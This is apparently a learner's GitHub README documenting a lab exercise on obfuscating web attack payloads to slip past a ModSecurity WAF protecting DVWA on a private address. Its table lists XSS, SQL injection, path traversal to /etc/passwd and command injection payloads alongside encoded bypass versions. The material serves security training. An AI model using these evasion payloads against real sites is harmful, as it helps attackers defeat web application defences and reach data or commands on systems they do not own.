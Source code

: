 # 🧬 Module 2 – Tool 3: Payload Obfuscation

## 🎯 Objective
Use obfuscated payloads to bypass WAF detection mechanisms and understand which encodings and evasion techniques are most effective.

---

## 🛠️ Tool Used
- Burp Suite (Community/Professional)
- Manual encoding tools (CyberChef, browser encoding plugins, etc.)

---

## 📍 Target
- **IP/URL:** http://192.168.1.110
- **Environment:** DVWA with ModSecurity WAF enabled

---

## 🧪 Payload Examples

| Type              | Original Payload                   | Obfuscated Payload                                     |
|-------------------|------------------------------------|--------------------------------------------------------|
| **XSS**           | `<script>alert(1)</script>`        | `<scr<script>ipt>alert(1)</scr</script>ipt>`          |
| **SQL Injection** | `' OR '1'='1`                      | `%27%20oR%20%271%27%3D%271`                            |
| **LFI**           | `../../etc/passwd`                 | `%2e%2e%2f%2e%2e%2fetc%2fpasswd`                       |
| **Command Inj.**  | `; ls -la`                         | `%3b%20ls%20-la`                                       |

---

## 📄 Output Files
- `payloads/original-vs-obfuscated.txt`  
  ➤ A comparison of original and encoded/obfuscated payloads

- `screenshots/waf-obfuscation-bypass.png`  
  ➤ Terminal screenshot of WAF behavior to obfuscated payloads

---

## 🧠 What I Learned
- How to transform malicious payloads using encodings
- Identified which payloads bypass specific WAF rules
- Importance of understanding filter logic before exploit attempts

---

## 🙋 About Me
I’m a SOC Analyst transitioning into Red Teaming, testing real-world WAF detection and bypass techniques.

🔗 [Connect on LinkedIn](https://www.linkedin.com/in/aditya-kumar-goswami)  
📁 GitHub: [Aditya-Sec](https://github.com/Aditya-Sec)

